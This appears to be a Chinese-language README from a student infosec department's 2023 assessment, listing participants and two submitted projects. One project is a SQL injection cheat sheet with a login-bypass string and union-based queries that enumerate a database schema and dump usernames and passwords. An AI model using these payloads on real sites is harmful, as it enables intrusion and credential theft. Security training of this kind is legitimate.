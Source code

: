 # 信安部2023考核

#### 参加人员：

- 黄美如
- 周齐家
- 郑明宇
- 李梦青



#### 作品提交：2个



##### sql注入（郑）：

~~~ mysql
//支持post注入的万能用户名和密码
1' or
or '1'='1

table_schema
information_schema

//确认显错位
and 1=2 select 1,2,3
//查询数据库
union select 1,2,database()
//查数据库中所有表名            
union select 1,2,table_name from information_schema.tables where table_schema='db02' limit 0,1
//查数据库中所有字段名
union select 1,2,column_name from information_schema.columns where table_schema='db02' and table_name='users' limit 0,1
//查一张表的信息
union select 1,username,password from users limit 0,1

~~~



##### 图片转文字（周）：

图片文本：

链接：

效果图：



![效果图片](README.assets/运行结果.png)



##### 现场图片：

![实景图片](README.assets/实景照片.jpg)

